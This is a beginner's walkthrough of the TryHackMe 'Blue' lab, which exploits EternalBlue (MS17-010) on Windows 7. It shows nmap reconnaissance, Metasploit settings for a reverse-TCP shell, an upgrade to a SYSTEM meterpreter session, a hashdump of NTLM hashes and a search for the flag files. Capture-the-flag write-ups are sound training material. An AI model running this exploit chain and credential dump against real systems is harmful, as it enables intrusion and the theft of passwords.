





# **Introduction**

This writeup covers the TryHackMe room [Blue](https://tryhackme.com/room/blue), which focuses on exploiting a critical vulnerability known as **MS17-010 (EternalBlue)** in a Windows 7 machine. The room is designed for beginners to learn how the EternalBlue exploit works, how to identify it using Nmap, and how to leverage Metasploit to gain access.

# Recon :

the machine does not respond to ping (ICMP) so we will use the `-Pn` flag to disable Ping
````bash
┌──(root㉿kali)-[/home/kali]
└─# nmap -Pn 10.10.242.215
Starting Nmap 7.95 ( https://nmap.org ) at 2025-07-14 10:24 EDT
Nmap scan report for 10.10.242.215
Host is up (0.60s latency).
Not shown: 991 closed tcp ports (reset)
PORT      STATE SERVICE
135/tcp   open  msrpc
139/tcp   open  netbios-ssn
445/tcp   open  microsoft-ds
3389/tcp  open  ms-wbt-server
49152/tcp open  unknown
49153/tcp open  unknown
49154/tcp open  unknown
49158/tcp open  unknown
49159/tcp open  unknown

Nmap done: 1 IP address (1 host up) scanned in 62.72 seconds

````

now let s do a more profond scan 
````bash 
┌──(root㉿kali)-[/home/kali]
└─# nmap -Pn -sV -sC -p 135,139,445,3389,49152,49153,49154,49158,49159 10.10.242.215
Starting Nmap 7.95 ( https://nmap.org ) at 2025-07-14 10:31 EDT
Stats: 0:00:30 elapsed; 0 hosts completed (1 up), 1 undergoing Service Scan
Service scan Timing: About 44.44% done; ETC: 10:32 (0:00:36 remaining)
Stats: 0:00:31 elapsed; 0 hosts completed (1 up), 1 undergoing Service Scan
Service scan Timing: About 44.44% done; ETC: 10:32 (0:00:38 remaining)
Nmap scan report for 10.10.242.215
Host is up (0.74s latency).

PORT      STATE SERVICE      VERSION
135/tcp   open  msrpc        Microsoft Windows RPC
139/tcp   open  netbios-ssn  Microsoft Windows netbios-ssn
445/tcp   open  microsoft-ds Windows 7 Professional 7601 Service Pack 1 microsoft-ds (workgroup: WORKGROUP)
3389/tcp  open  tcpwrapped
|_ssl-date: 2025-07-14T14:32:27+00:00; +3s from scanner time.
| rdp-ntlm-info: 
|   Target_Name: JON-PC
|   NetBIOS_Domain_Name: JON-PC
|   NetBIOS_Computer_Name: JON-PC
|   DNS_Domain_Name: Jon-PC
|   DNS_Computer_Name: Jon-PC
|   Product_Version: 6.1.7601
|_  System_Time: 2025-07-14T14:32:12+00:00
| ssl-cert: Subject: commonName=Jon-PC
| Not valid before: 2025-07-13T14:10:31
|_Not valid after:  2026-01-12T14:10:31
49152/tcp open  msrpc        Microsoft Windows RPC
49153/tcp open  msrpc        Microsoft Windows RPC
49154/tcp open  msrpc        Microsoft Windows RPC
49158/tcp open  msrpc        Microsoft Windows RPC
49159/tcp open  msrpc        Microsoft Windows RPC
Service Info: Host: JON-PC; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb-os-discovery: 
|   OS: Windows 7 Professional 7601 Service Pack 1 (Windows 7 Professional 6.1)
|   OS CPE: cpe:/o:microsoft:windows_7::sp1:professional
|   Computer name: Jon-PC
|   NetBIOS computer name: JON-PC\x00
|   Workgroup: WORKGROUP\x00
|_  System time: 2025-07-14T09:32:12-05:00
| smb2-security-mode: 
|   2:1:0: 
|_    Message signing enabled but not required
| smb2-time: 
|   date: 2025-07-14T14:32:12
|_  start_date: 2025-07-14T14:10:29
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
|_nbstat: NetBIOS name: JON-PC, NetBIOS user: <unknown>, NetBIOS MAC: 02:16:4f:66:bb:25 (unknown)
|_clock-skew: mean: 1h00m02s, deviation: 2h14m10s, median: 2s

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 84.77 seconds

````

This Nmap scan provides **a lot of useful intel** so let s break it down :
- **Host OS:** Windows 7 Professional SP1
- **Hostname:** Jon-PC
- **Workgroup:** WORKGROUP
- **RDP (3389):** Enabled
- **SMB (139/445):** Open with dangerous settings (signing disabled) 
- **Multiple RPC ports** open (135 + 4915x range)
- **No ping (ICMP) required `-Pn` used**

#### Most important info :
```
smb-security-mode: message_signing: disabled (dangerous, but default)
````

after a quick internet search i found that  it  allows **Man-in-the-Middle (MitM)** attacks and **pass-the-hash**.
- **Exploit possibilities:**
    - EternalBlue (MS17-010)
    - SMB Relay attacks
    - Null session enumeration
we will go with EternalBlue since it s this room is made for it


# Gain Access :

Let's launch Metasploit and look for eternal blue 

we will choose the first one now let s ceck what options do we need to provide so we ccan run the exploit 

the only required option is `RHOSTS` which should be the one provided with your machine and i ll have to change the `LHOST` which was an ip address that i got from a different room
you can change them by typing :

```bash
set RHOSTS <machine ip address>
set LHOST <your ip address>
```

when it comes to the payload the one that is in the image should work fine if you have a different one just type : 

````bash 
set payload windows/x64/shell/reverse_tcp
````

now everything is set let s run the exploit you can simpy do that buy typing 
`run` or `exploit` .
if everything worked fine you should get the meterpreter which looks like this 

now  we ll try to escalate privileges .

# Escalation :

Let s start by backgrounding this session ( press CTRL+Z ) and try to upgrade our session. 
When you exploit a system, you might get a **basic shell** — but it’s very limited. Upgrading it to a **Meterpreter session** gives you **powerful post-exploitation features**. 
you can do this in an easy way  just background your session as we said then type :
```bash 
sessions -u < ur session number >
```
which will create a upgraded session after  that type 
```bash
*> sessions

Active sessions
===============

  Id  Name  Type                     Information                   Connection
  --  ----  ----                     -----------                   ----------
  1         shell x64/windows                                      10.11.142.91:4444 -> 10.10.242.215:49237 (10.10.242.215)
  2         meterpreter x64/windows  NT AUTHORITY\SYSTEM @ JON-PC  10.11.142.91:4433 -> 10.10.242.215:49250 (10.10.242.215)

```
to switch to the meterpreter session type `sessions -i 2` and VOILA you have a meterpreter 
you can do lots of stuff  like showing the systems info and seeing the running processes.
you can check [Metasploit cheat sheet](https://github.com/r4y-br/Cybersecurity-101/blob/main/Metasploit.md) to try learn the commands tthat you can run on the meterpreter .


# Crack :
the room asks us to crack  the non default user's password  we can dump the hashes  by running :

````bash
meterpreter > hashdump
Administrator:500:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
Jon:1000:aad3b435b51404eeaad3b435b51404ee:ffb43f0de35be4d9917ac0cc8ad57f8d:::

````

now we will need to crack the passwords hash we  can either use john the ripper or use   [crackstation](https://crackstation.net/) which is more convinient .


# Finding the flags :

 Just use the meterpreter for your advantage and make it do the hard work  for u :
 ```bash
meterpreter > search -f *flag*
Found 6 results...
==================

Path                                                             Size (bytes)  Modified (UTC)
----                                                             ------------  --------------
c:\Users\Jon\AppData\Roaming\Microsoft\Windows\Recent\flag1.lnk  482           2019-03-17 15:26:42 -0400
c:\Users\Jon\AppData\Roaming\Microsoft\Windows\Recent\flag2.lnk  848           2019-03-17 15:30:04 -0400
c:\Users\Jon\AppData\Roaming\Microsoft\Windows\Recent\flag3.lnk  2344          2019-03-17 15:32:52 -0400
c:\Users\Jon\Documents\flag3.txt                                 37            2019-03-17 15:26:36 -0400
c:\Windows\System32\config\flag2.txt                             34            2019-03-17 15:32:48 -0400
c:\flag1.txt                                                     24            2019-03-17 15:27:21 -0400


``` 


#  **Conclusion**
> 
> The _Blue_ room provided a great introduction to identifying and exploiting SMB vulnerabilities, specifically the infamous **MS17-010 (EternalBlue)** flaw affecting Windows 7. Through careful enumeration and the use of Metasploit, I was able to gain a reverse shell and access the target system.
> 
> This challenge highlights the importance of keeping systems up to date and demonstrates how a single unpatched vulnerability can lead to full system compromise. Overall, _Blue_ was a valuable learning experience that reinforced core penetration testing techniques such as service enumeration, vulnerability identification, and exploitation using Metasploit.

